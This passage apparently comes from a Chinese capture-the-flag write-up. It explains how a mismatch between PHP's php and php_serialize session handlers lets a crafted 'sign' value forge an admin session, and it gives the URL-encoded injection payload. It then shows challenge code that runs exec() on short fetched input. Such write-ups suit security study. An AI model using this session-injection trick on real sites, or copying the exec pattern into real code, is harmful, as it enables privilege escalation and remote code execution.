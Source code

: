 ```php
                return true;
            }
        }
    }
    return false;
}
```

我们最终要构造

```php
array(
	'xxxx':array('admin',1)
);
```

原本我们直接在`upload_sign.php`中post : `sigh[admin]=1`即可

但是`upload_sign.php`的session引擎是`ini_set('session.serialize_handler','php_serialize');`

而`core/index.php`的session引擎是:`ini_set('session.serialize_handler', 'php');`

也就是说session是无法被正确解析的

>- php:存储方式是，键名+竖线+经过serialize()函数序列处理的值
>- php_serialize(php>5.5.4):存储方式是，经过serialize()函数序列化处理的值
>

根据php和php_serialize两个反序列化引擎的不同之处,我们构造

`sign=|a%3A1%3A%7Bs%3A5%3A%22admin%22%3Bi%3A1%3B%7D`

拿到

```php
require_once('./init.php');
error_reporting(0);
if (check_session($_SESSION)) {
    #hint : core/clear.php
    $sandbox = './sandbox/' . md5("Mrk@1xI^" . $_SERVER['REMOTE_ADDR']);
    echo $sandbox;
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_POST['url'])) {
        $url = $_POST['url'];
        if (filter_var($url, FILTER_VALIDATE_URL)) {
            if (preg_match('/(data:\/\/)|(&)|(\|)|(\.\/)/i', $url)) {
                echo "you are hacker";
            } else {
                $res = parse_url($url);
                if (preg_match('/127\.0\.0\.1$/', $res['host'])) {
                    $code = file_get_contents($url);
                    if (strlen($code) <= 4) {
                        @exec($code);
                    } else {
                        echo "try again";
                    }
                }
            }
        } else {
            echo "invalid url";
        }
    } else {
        highlight_file(__FILE__);
    }
} else {
    die('只有管理员才能看到我哟');
}
```
